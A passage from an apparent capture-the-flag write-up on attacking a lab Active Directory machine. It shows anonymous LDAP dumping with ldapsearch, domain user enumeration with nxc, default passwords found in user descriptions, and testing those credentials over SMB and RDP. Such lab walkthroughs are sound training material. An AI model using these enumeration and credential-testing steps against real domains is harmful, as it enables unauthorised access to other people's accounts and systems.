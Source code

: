 ```
# numEntries: 1
```

Ldap anonymous enumeration works, let's dump full ldap scan:

```
ldapsearch -x -H ldap://10.10.148.131 -b "DC=thm,DC=local" > ldap_dump.txt
```

We get a ton of information on here, we can search for the users and many more information of the domain, since it would be a hassle to go through every user and copy it, we can use `nxc` to give us the users:

```
nxc ldap labyrinth.thm.local -u 'guest' -p '' --users > users.txt
```

We got `487` domain users:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250623195453.png)

Interesting part on here is that two users have this description:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250623195543.png)

Let's begin exploitation.


# EXPLOITATION
---

We got two sets of possible credentials:

```
IVY_WILLIS:CHANGEME2023!
SUSANNA_MCKNIGHT:CHANGEME2023!
```

Let's test them with `nxc` again:

```
nxc smb labyrinth.thm.local -u 'IVY_WILLIS' -p 'CHANGEME2023!' 
nxc smb labyrinth.thm.local -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!' 
```


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250623195817.png)

Both work for `smb`, `winrm` is not enabled on this machine but we got `rdp`, let's test for rdp then:

```
nxc rdp labyrinth.thm.local -u 'IVY_WILLIS' -p 'CHANGEME2023!' 
nxc rdp labyrinth.thm.local -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!' 
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250623195958.png)
